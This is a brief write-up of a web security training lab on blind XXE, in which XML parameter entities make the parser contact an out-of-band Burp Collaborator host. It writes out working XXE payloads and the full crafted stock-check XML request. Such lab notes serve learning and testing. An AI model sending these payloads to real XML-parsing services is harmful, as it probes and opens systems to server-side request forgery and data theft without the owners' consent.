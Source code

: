 # Blind XXE with out-of-band interaction via XML parameter entities
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

Final XML request:
<pre><code>
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>
  <stockCheck>
  <productId>2</productId><storeId>2</storeId></stockCheck>
</code></pre>
